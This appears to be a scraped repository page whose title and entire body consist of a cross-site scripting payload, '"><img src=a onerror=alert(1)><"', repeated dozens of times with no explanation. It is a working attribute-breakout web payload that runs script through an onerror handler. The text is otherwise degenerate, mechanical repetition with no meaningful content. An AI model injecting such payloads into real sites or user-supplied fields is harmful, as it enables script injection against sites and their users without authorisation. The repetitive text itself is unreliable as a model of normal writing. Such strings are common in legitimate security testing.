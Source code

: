 ---img-src-a-onerror-alert-1----
================================

">&lt;img src=a onerror=alert(1)>&lt;"
"><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><""><img src=a onerror=alert(1)><"v
"><img src=a onerror=alert(1)><"
